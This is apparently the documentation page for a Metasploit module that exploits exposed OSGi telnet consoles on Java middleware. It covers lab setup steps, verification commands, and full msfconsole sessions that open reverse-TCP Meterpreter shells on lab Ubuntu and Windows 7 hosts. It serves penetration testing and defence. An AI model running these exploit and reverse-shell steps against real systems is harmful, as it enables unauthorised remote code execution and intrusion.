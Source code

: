 ## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
``mkdir testenv && cd testenv``
2. Download the setup script
``wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh``
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
``./setup.sh``
5. Launch the vulnerable application with this command so it listens on port TCP/5555
``java -jar org.eclipse.osgi.jar -console 5555``
6. Verify that the server is running, you should be prompted with `osgi> `
``telnet localhost 5555``
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
``telnetd --ip=127.0.0.1 start``

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinoxe SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
``
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
``
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
``
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
``
11. Launch the vulnerable application with this command so it listens on port TCP/5555
``java -jar org.eclipse.osgi.jar -console 5555``
12. Verify that the server is running, you should be prompted with `osgi> `
``telnet localhost 5555``
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
``telnetd --ip=127.0.0.1 start``

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: ``use exploit/multi/misc/osgi_console_exec``
  4. Do: ``set RHOST 127.0.0.1``
  5. Do: ``set RPORT 5555`` or ``set RPORT 2019``
  6. Do: ``check``. The target should appear vulnerable.
  6. Do: ``set payload `` with the payload of your choosing.
  5. Do: ``run``
  5. You should get a shell.

## Options

  **TIME_WAIT** - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

``
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf5 exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

``

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

``
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf5 exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
``


## References

* OSGi Console - Gateway to (s)hell - https://qkaiser.github.io/pentesting/2018/02/13/osgi-console/
